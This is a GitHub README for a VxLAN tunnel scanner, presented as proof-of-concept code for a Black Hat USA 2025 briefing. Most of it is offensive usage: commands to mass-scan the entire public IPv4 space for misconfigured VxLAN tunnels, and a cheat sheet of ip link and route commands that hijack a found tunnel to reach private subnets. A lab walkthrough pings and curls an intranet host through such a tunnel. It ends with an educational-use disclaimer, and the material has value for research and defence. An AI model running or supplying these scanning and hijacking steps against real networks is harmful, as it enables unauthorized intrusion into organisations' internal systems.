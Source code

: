 # VxLAN Tunnel Scanner
- A scanner that searches for misconfigured VxLAN tunnels around the world and can potentially hijack entire tunnel access to internal networks.
## Reference
- This is a PoC code for Black Hat USA 2025 Briefing: [From Spoofing to Tunneling: New Red Team's Networking Techniques for Initial Access and Evasion](https://www.blackhat.com/us-25/briefings/schedule/#from-spoofing-to-tunneling-new-red-teams-networking-techniques-for-initial-access-and-evasion-44678) 
## Prepare
- `pip3 install requirement.txt`
## Usage
```
python3 main.py -i <interface> -l <your_public_IP> -d <VxLAN_dst_ip_subnet or ip_list_file>
```
## Example
- for example `1.1.1.1` has VxLAN tunnel you are `3.3.3.3`, and VNI might be 1 to 100
```
python3 main.py -i eth0 -l 3.3.3.3 -d 1.1.1.1 -vni 1:100 -p 4789,8472
CRITICAL - Received reply from Source IP: 1.1.1.1, VNI: 42, VXLAN Port: 8472, VXLAN Source Mac: ee:bb:cc:aa:55:11, VXLAN Source IP: 10.0.0.1
```
- And get how to abuse VxLAN tunnel
```
python3 main.py -l 3.3.3.3 -d 1.1.1.1 -vni 42 -p 8472 -sch -tip 10.0.0.2/24 -tvip 10.0.0.1
########################## output ##########################
#### Create Fake Tunnel ####
IFACE=vxlan-test
MYPUBIP=3.3.3.3
DSTADDR=1.1.1.1
TIP=10.0.0.2/24
TVIP=10.0.0.1
DPORT=8472
VID=42
ip link add $IFACE type vxlan id $VID remote $DSTADDR local $MYPUBIP dstport $DPORT 
ip link set up dev $IFACE
ip addr add $TIP dev $IFACE
## route possible private ip ##
ip r add 10.0.0.0/8 via $TVIP dev $IFACE src $MYPUBIP
ip r add 172.16.0.0/12 via $TVIP dev $IFACE src $MYPUBIP
ip r add 192.168.0.0/16 via $TVIP dev $IFACE src $MYPUBIP

### start scan intranet ###
#### !IMPORTANT! ####
# !! nmap is not available for this kind of attack use fping instead !! #
# fping -g 192.168.0.0/16 2>/dev/null

#### cleanup ####
ip link del $IFACE
```
- default setting about 500 package/sec.

## options
- `-sch`: Show Cheetsheet and exit (Input -i -l -d which you found then get abuse VxLAN tunnel command)
- `-l3`: Layer 3 tunnel interface (Default: False)
- `-vni`: Scan VXLAN VNI range in the form of '1:10', '1', or '1,4' (default 1:200)
- `-p` Scan VXLAN VNI range in the form of '1:10', '1', or '1,4' (default 1:200)
- `-ss`: Save and use status file (the last scan will resume) (Default: False)
  - Recommend "on" in mass scan system sometime kill the script
- `-i <interface>`: Interface to send package
- `-d <ip_or_file>`: A IP subnet or a list of IPs(subnets) to use as VxLAN dst
- `-l <ip>`: A IP on your pubilc interface (the IP on -i interface)
- `-o <file>`: Log file path
- `-t <float>`: Wait how many second after VxLAN packet send (Default: 2)
- `-T <int>`: How many thread send VxLAN packet in same time (Default: 255)
- `-cs <int>`: Send how many ip until start wait for ping to responsed (default: 1000)
- `-dp`: Do private - scan private ip VxLAN (Default: False)
  - Use this if you know the inside intranet address
- `-v <log_level>`: Logging level `['DEBUG', 'INFO', 'WARNING', 'ERROR', 'CRITICAL']` (Default: INFO)
  - VxLAN peer found log is on `CRITICAL`
- `-tip` : tunnel address **inference** from scan result, **contains subnets** (for cheet sheet only)
- `-tvip` : Victim tunnel address from scan result (for cheet sheet only)


## better way to scan full public ip
```
wget https://bgp.tools/table.txt
cat table.txt |grep -v "::"|cut -d " " -f 1 > v4table.txt
pip3 install aggregate6
aggregate6 v4table.txt > aggrv4table.txt
#cat aggrv4table.txt|wc -l   #159652
python3 main.py -i <interface> -l <your_public_IP> -d aggrv4table.txt -ss
```

## Lab
### Scan VxLAN tunnel
```
python3 main.py -i <iface> -l <your_ip> -d 160.25.104.200
CRITICAL - Received reply from Source IP: 160.25.104.200, VNI: 42, VXLAN Port:8472, VXLAN Source Mac: fa:10:04:a1:e1:cf, VXLAN Source IP: 10.0.0.1
```
### Access & Scan intranet
```
python3 main.py -l 9.9.9.9 -d 160.25.104.200 -vni 42 -p 8472 -sch -tip 10.0.0.2/24 -tvip 10.0.0.1
#### Create Fake Tunnel ####
MYPUBIP=9.9.9.9  #change this
DSTADDR=160.25.104.200
DPORT=8472
VID=42
IF_NAME=vxlan-test
ip link add $IF_NAME type vxlan id $VID remote $DSTADDR local $MYPUBIP dstport $DPORT 
ip link set up dev $IF_NAME
ip addr add 10.0.0.2/24 dev $IF_NAME
### You need to ping to the same subnet to trigger an ARP request, which lets the server know you are here ###
ping -c 1 10.0.0.1
ip r add 192.168.122.0/24 via 10.0.0.1

### start scan intranet ###
# nmap 192.168.122.0/24
ping -c 1 192.168.122.20

## test curl to web ##
curl 192.168.122.20
# YOU KNOW VxLAN!

#### cleanup ####
ip link del $IF_NAME
```

## Disclaimer
This project is intended for educational and research purposes only. Any actions and/or activities related to this code are solely your responsibility. The authors and contributors are not responsible for any misuse or damage caused by this project. Please ensure that you have proper authorization before testing, using, or deploying any part of this code in any environment. Unauthorized use of this code may violate local, state, and federal laws.

## License
This project is licensed under the terms of the MIT license.
